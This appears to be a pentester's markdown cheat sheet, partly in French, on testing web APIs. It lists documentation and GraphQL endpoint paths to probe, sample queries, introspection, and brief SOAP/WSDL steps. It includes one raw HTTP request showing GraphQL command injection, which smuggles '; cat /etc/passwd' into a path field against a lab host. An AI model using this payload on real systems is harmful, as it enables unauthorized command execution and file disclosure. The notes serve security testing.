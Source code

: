 # Web API

## standard type

* SOAP
* RESTful
* GrpahQL

## Data Type

* XML
* JSON

## common content type:

* application/json
* application/xml 
* application/x-www-form-urlencoded 

## Convention

| Convention | Meaning |
-------------------------
| ":" or "{}" | variables |
| "[]" | optional input |
| "||" | possible values that can be used. |
| "< >" | ex. <find-function> Angle brackets represent a DomString, which is a 16-bit string. |

## tools généralement utilisés pour les tests (hors sécu)

* Postman
* Client http du même langage de programmation
* OWASP Zap / Burp Suite

## liste sommaire de repertoires pour trouver la doc:

```txt
/docs
/api/docs
/documentation
/developers/documentation
```

### liste de sous domaines pour trouver la doc

```txt
dev.
api.
```
### detect graphQL

```txt
/graphql
/v1/graphql
/api/graphql
/v1/api/graphql
Attacking GraphQL   291
/graph
/v1/graph
/graphiql
/v1/graphiql
/console
/query
/graphql/console
/altair
/playground
```

### exemples GraphQL

#### Requetes classiques:

lister les noms et pays de tous les clients :

```json
query {clients { name, country } }
```

Obtenir le client avec l'id 1

```json
query { client (id:1) { name, country } }
```

Appeller une fonction spécifique

```json
{
 clientsByCountry(countryId: 1) {
    id
    name
    country
  }
}
```


#### récupération du shéma (introspection)

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

#### exemple type d'injection GraphQL retournant le fichier /etc/passwd

```sh
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json

{"variables": {"scheme": "http",
"path": "/ ; cat /etc/passwd",
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!)
{\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme)
{\n result\n }\n }"}
```

## SOAP

### Merge SOAP with XSD in Visual studio:

- Merge XSD in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter local Path or URI"

